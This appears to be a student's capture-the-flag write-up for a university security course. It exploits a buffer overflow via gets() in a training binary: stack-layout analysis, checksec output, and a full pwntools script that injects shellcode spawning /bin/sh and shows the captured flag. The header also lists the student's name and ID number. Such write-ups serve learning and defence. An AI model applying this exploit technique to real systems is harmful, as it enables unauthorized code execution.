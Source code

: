 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "deprecated"
- story:  It's time for your first _real_ exploit! From man 3 gets: Never use this function.
- we have the following source code
```c
#include <stdio.h>

int main(void)
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    char me[16] = "Tim";
    printf("Hello! My name is %p!\n", me);

    char name[16];
    printf("What is your name? ");
    gets(name); // reads in put until \n = 0x0A

    printf("Hello %s!\n", name);
}
```
- idea: overflow buffer, add shellcode into buffer and override return address to point to our shell code
- use IDA Free to look at main function
```
-0000000000000020 // Use data definition commands to manipulate stack variables and arguments.
-0000000000000020 // Frame size: 20; Saved regs: 8; Purge: 0
-0000000000000020
-0000000000000020     _BYTE var_20;
-000000000000001F     // padding byte
-000000000000001E     // padding byte
-000000000000001D     // padding byte
-000000000000001C     // padding byte
-000000000000001B     // padding byte
-000000000000001A     // padding byte
-0000000000000019     // padding byte
-0000000000000018     // padding byte
-0000000000000017     // padding byte
-0000000000000016     // padding byte
-0000000000000015     // padding byte
-0000000000000014     // padding byte
-0000000000000013     // padding byte
-0000000000000012     // padding byte
-0000000000000011     // padding byte
-0000000000000010     _QWORD var_10;
-0000000000000008     _QWORD var_8;
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
+0000000000000010
+0000000000000010 // end of stack variables
```
- press F5 to see C-like code
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-20h] BYREF    <----- rbp - 32 is top of buffer :)
  _QWORD v5[2]; // [rsp+10h] [rbp-10h] BYREF  <----- we get this pointer: rbp - 16

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  v5[0] = 7170388LL;
  v5[1] = 0LL;
  printf("Hello! My name is %p!\n", v5);
  printf("What is your name? ");
  gets(v4);
  printf("Hello %s!\n", v4);
  return 0;
}
```
- we can use the 32 Byte buffer + override saved RBP + the return address:
```
8Bytes          <---- RBP - 0x20 at the top of this
8Bytes
8Bytes          <---- we get pointer to top of this
8Bytes
saved RBP       <---- RPB points to top of this 
return adddress
```
- check security features
    ```
    checksec --file=vuln
    ```
    - outputs:
    ```
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    ```
    - that means we can exeucte stack
- the folling script automatically exploits it (uncomment gdb thing to we able to debug):
```python
#!/usr/bin/env python3

import pwn

pwn.context.arch = 'amd64'
conn = pwn.remote('tasks.ws24.softsec.rub.de', 32942)

# spawn binary and a gdb instance for debugging
# this way we can use pwntools to transfer bytes 
"""
conn = pwn.process('./vuln')
pwn.gdb.attach(conn)
"""

# shellcode from the slides
shellcode = pwn.asm('''
    mov rsp, rbp; # we need to move the rsp as well sothat stack well build
    xor rax, rax;
    mov al, 59;
    lea rdi, [rip + sh];
    xor rsi, rsi;
    xor rdx, rdx;
    syscall;
sh:
    .string "/bin/sh"
    nop
''')

# print shellcode to make sure that 32 byte (or add padding)
"""
print(f'shellcode: {shellcode.hex()}')
"""

conn.recvuntil(b'Hello! My name is 0x')
address = conn.recvuntil(b'!\nWhat is your name?', drop=True)
address_RIP = int(address.decode('utf-8'), 16)
# we need top of buffer, but get middle of big 32 byte buffer (two 16 byte buffers in C)
address_RIP -= 16
# we set RBP = RIP, because we have no data on stack for our shellcode
address_RBP = address_RIP
payload = shellcode + pwn.p64(address_RBP) + pwn.p64(address_RIP)
print(payload.hex())
# send shellcode
conn.sendline(payload)
# start interactive session (we have a shell now)
conn.interactive()
```
- flag:
```
softsec{pOPDs2lJJIOX79o9DB3opTbCpkmMbqpDg7T_JHb3FwrHzwryUorEaW3vGTlLMGQ9}
```